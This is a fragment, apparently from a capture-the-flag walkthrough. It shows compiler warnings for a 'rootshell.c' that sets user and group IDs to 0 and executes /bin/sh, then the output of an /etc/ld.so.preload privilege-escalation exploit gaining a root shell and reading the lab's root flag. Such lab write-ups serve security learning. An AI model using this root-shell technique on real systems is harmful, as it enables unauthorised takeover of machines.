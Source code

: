      setgid(0);
     ^
/tmp/rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
     seteuid(0);
     ^
/tmp/rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
     setegid(0);
     ^
/tmp/rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
#  id
uid=0(root) gid=0(root) groups=0(root),1000(joker)
#  cat /root/root.txt
THM{5ecd98aa66a6abb670184d7547c8124a}
#  
```
